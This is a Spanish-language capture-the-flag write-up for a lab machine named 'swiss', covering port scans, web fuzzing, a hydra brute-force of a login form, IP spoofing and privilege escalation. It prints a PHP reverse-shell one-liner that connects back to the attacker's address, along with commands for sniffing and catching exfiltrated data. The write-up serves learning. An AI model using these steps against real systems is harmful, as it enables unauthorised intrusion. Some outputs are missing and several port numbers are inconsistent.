

# Maquina swiss

### Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.2

### Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p22,80 -vvv -Pn 172.17.0.2

### Fuzzing Web

gobuster dir -t 200 -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,sh,py,js,html -r -b 403,404 2>/dev/null

Entramos en la web, es una web de el pinguino de Mario, entramos en el apartado de sobre mí al momento de hacer clic en Ir al linkedin, hay un formulario de login:

aplicando fuerza bruta con hydra al formulario de login, las credenciales son: administrator - panther

Después de varias pruebas la ip que funcionó fue la 172.17.0.200

para cambiar mi ip ejecuté:

elimino mi Ip actual
ip address del 172.17.0.1/16 dev docker0

asigno nueva ip
ip address add 172.17.0.200/16 dev docker0

Me conecté por ssh, pero el usuario darks tiene rbash

al hacer ls me encuentro con un archivo llamado mensaje.txt y al ver su contenido:

Entonces analizando la url después de iniciar sesión:

Utilizando WFUZZ para ver si tiene una webshell:

wfuzz -c --hl=44 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/sobre-mi/confidencial.php?FUZZ=id"

Me puse con netcat en escucha por el puerto 443 y ejecuté en la url:

url encondeamos esto:

php -r '$sock=fsockopen("172.17.0.200",4450);exec("/bin/bash <&3 >&3 2>&3");'

no hice tratamiento de la TTY porque se me congelaba la sesión al momento de suspender la sesión, me aparecía un mensje de script done y se congelaba.

ejcuté el comando: find / -type f -user www-data 2>/dev/null | grep -v proc

encontré un binario llamado sendinv2, lo descargué en mi kali y lo analizé

Lo importante:

el binario al ser ejecutado envia datos y al parecer lo hace a la ip 172.17.0.188, cambié la ip a la 188 y ejecuté

sudo tcpdump -i docker0

entonces el binario envía información por el puerto 777 a través del protocolo udp

Me pongo en escucha por ese puerto:

nc -lnvup 7777:

lo desencripto:

cambié la ip a 172.17.0.200 otra vez y me conecté por ssh con las credenciales encontradas.

modifiqué el archivo systm.c y le reemplacé por el siguiente código:

esperé 15 segundos:

